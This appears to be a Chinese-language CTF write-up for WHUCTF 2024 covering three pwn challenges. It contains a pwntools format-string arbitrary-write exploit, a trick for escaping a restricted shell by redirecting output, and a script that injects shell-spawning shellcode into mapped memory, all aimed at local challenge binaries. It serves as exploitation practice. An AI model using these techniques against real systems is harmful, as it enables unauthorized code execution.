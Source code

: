 # whuctf2024

by Maple

## ezformat-string

***格式化字符串漏洞实现任意地址写***

查看保护

<img src="./images/image-20250212212038501.png" alt="image-20250212212038501" style="zoom:67%;" />

64位，开启了NX，Canary，但是没有开启PIE，地址还是固定的，接下来看一下源码

<img src="./images/image-20250212211731526.png" alt="image-20250212211731526" style="zoom:67%;" />

可以看到需要我们通过格式化字符串漏洞将`magic`修改为`0x32107654BA98FEDC`，然后`getshell`

如果是32位的话我们可以直接`fmtstr_payload()`函数直接结束这道题目，但是64位程序就需要自己手动构造了

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
p = process('./pwn')
#gdb.attach(p)

magic = 0x00000000004CA2F0
num = 0x32107654ba98fedc

payload = f"%{0x3210}c%18$hn%{0x7654-0x3210}c%19$hn%{0xba98-0x7654}c%20$hn%{0xfedc-0xba98}c%21$hn".encode()
payload = payload.ljust(0x50,b'a')
payload+=p64(magic+6)+p64(magic+4)+p64(magic+2)+p64(magic)
p.sendline(payload)

p.interactive()
```

### 64位格式化字符串构造

1. 先确定偏移

![image-20250212213454833](./images/image-20250212213454833.png)

可以看到这里的在格式化字符串后8个偏移

> **64位格式化字符串的原理：**
>
> - `printf`函数的前六个参数分别存放在`rdi`,`rsi`,`rcx`,`r8`,`r9`寄存器中，按照从右到做的顺序存放在栈中
> - `%n`可以将已经成功输出的字符个数写入对应的整形指针参数所指的变量

这道题中，我们要覆盖的地址为`0x00000000004CA2F0`，数据为`0x32107654BA98FEDC`，相当于

```c
0x4CA2F0	\0xFEDC
0x4CA2F2	\0xBA98
0x4CA2F4	\0x7654
0x4CA2F6	\0x3210
```

所以我们将这些两字节的数字依次写入

> 通过`%xc`输入x个长度的字节，通过`%i$hn`实现将输入的字节数存在第i个参数，减去前面的是为了保证累计输出正确的数值

接下来因为我是将这些数据存在18-21个参数的地址，所以要进行一定的填充，将后面`magic`的地址刚好在第18到21个参数处

我们输入的参数是8，所以填充10个参数，那么应该是`10*8=80=0x50`,一共填充0x50个数据，可以到达第18个参数

接下来就会将这些参数依次写入`magic`的地址里，就可以修改`magic`的指了

## ezshell

主要考察linux命令行

运行程序之后发现构造了shell，但是不允许`cat flag`指令，并且输出不被允许

但是我们可以发现有一个指令叫`showKey`，那么我们可以输入`sh`，这样就可以获得shell，然后在输入`exce 1>&0`将标准输出改为标准输入，以此`cat flag`

## notebook

菜单题，主要是考察mmap函数，将需要的东西输入好，直接写入shellcode就行

```python
from pwn import *
context.arch  = 'amd64'
p = process('./pwn')
p.sendlineafter('exit',b'1')
p.sendlineafter('id',b'1')
p.sendlineafter('addr: ',str(0x1337000))
p.sendlineafter('length: ',str(0x100))
p.sendlineafter('mode: ',str(7))
p.sendafter('note: ',asm(shellcraft.sh()).ljust(0x100,b'a'))
p.interactive()
```

